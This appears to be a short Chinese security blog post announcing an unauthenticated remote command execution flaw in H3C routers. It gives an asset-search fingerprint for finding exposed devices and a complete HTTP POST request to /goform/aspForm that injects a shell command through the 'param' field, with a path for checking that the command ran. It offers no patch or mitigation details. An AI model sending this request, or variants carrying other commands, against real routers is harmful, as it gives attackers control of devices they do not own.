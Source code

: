 #  H3C多系列路由器存在前台远程命令执行漏洞   
原创 骇客安全  骇客安全   2025-03-15 17:11  
  
# 一、漏洞简介  
  
 H3C多系列路由器存在前台远程命令执行漏洞。  
# 二、影响版本  
- H3C多系列路由器  
# 三、资产测绘  
- hunterapp.name="H3C Router Management"  
- 登录页面  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N3yBaRTQjPXfQHWV5NwfVS2youBFHj3S3h89CL6sJq5UbM7y8s679mSvEIMicjEILibQnl7icg1KiabQ/640?wx_fmt=png&from=appmsg "null")  
# 四、漏洞复现  
```
POST /goform/aspForm HTTP/1.1
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Host: 

CMD=DelL2tpLNSList&GO=vpn_l2tp_session.asp&param=1; $(ls>/www/test);
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N3yBaRTQjPXfQHWV5NwfVSeHBDT7iceDUypqcwZ9OF3YyMP4WKD8zpSuHQj3mHzZ8tdTAJhrAGOeA/640?wx_fmt=png&from=appmsg "null")  
```
/test
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991N3yBaRTQjPXfQHWV5NwfVS6eKAOhH8sBCxv4PzdT7ZsKsE1VfKVLY9Z28EsqU40dLd3WkazsWLhw/640?wx_fmt=png&from=appmsg "null")  
  
  
  
